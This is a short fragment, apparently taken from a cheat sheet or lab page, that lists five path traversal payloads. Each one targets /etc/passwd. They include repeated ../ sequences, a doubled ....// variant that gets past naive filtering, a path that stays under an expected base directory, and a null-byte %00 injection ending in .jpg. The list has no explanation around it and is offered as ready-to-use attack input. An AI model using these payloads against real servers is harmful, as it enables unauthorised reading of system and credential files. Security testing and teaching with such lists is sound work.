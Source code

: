<pre>
/etc/passwd
../../../../etc/passwd
....//....//....//....//etc/passwd
/var/www/images/../../../etc/passwd
../../../../etc/passwd%0069.jpg

</pre>
